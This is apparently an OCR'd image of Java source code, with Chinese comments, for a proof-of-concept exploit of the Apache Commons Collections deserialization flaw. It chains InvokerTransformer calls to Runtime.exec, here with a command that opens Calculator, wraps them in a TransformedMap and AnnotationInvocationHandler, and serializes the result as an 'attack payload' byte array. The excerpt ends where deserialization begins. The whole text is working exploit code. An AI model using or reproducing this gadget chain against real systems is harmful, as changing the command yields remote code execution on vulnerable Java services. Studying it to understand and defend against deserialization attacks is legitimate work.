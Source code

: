 ```java

/**
 * Creator: yz
 * Date: 2019/12/16
 */
public class CommonsCollectionsTest {

    public static void main(String[] args) {
        String cmd = "open -a Calculator.app";

        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[]{
                        String.class, Class[].class}, new Object[]{"getRuntime", new Class[0]}
                ),
                new InvokerTransformer("invoke", new Class[]{
                        Object.class, Object[].class}, new Object[]{null, new Object[0]}
                ),
                new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{cmd})
        };

        // 创建ChainedTransformer调用链对象
        Transformer transformedChain = new ChainedTransformer(transformers);

        // 创建Map对象
        Map map = new HashMap();
        map.put("value", "value");

        // 使用TransformedMap创建一个含有恶意调用链的Transformer类的Map对象
        Map transformedMap = TransformedMap.decorate(map, null, transformedChain);
        try {
            // 获取AnnotationInvocationHandler类对象
            Class clazz = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");

            // 获取AnnotationInvocationHandler类的构造方法
            Constructor constructor = clazz.getDeclaredConstructor(Class.class, Map.class);

            // 设置构造方法的访问权限
            constructor.setAccessible(true);

            // 创建含有恶意攻击链(transformedMap)的AnnotationInvocationHandler类实例，等价于：
            // Object instance = new AnnotationInvocationHandler(Target.class, transformedMap);
            Object instance = constructor.newInstance(Target.class, transformedMap);

            // 创建用于存储payload的二进制输出流对象
            ByteArrayOutputStream baos = new ByteArrayOutputStream();

            // 创建Java对象序列化输出流对象
            ObjectOutputStream out = new ObjectOutputStream(baos);

            // 序列化AnnotationInvocationHandler类
            out.writeObject(instance);
            out.flush();
            out.close();

            // 获取序列化的二进制数组
            byte[] bytes = baos.toByteArray();

            // 输出序列化的二进制数组
            System.out.println("Payload攻击字节数组：" + Arrays.toString(bytes));

            // 利用AnnotationInvocationHandler类生成的二进制数组创建二进制输入流对象用于反序列化操作
            ByteArrayInputStream bais = new ByteArrayInputStream(bytes);
```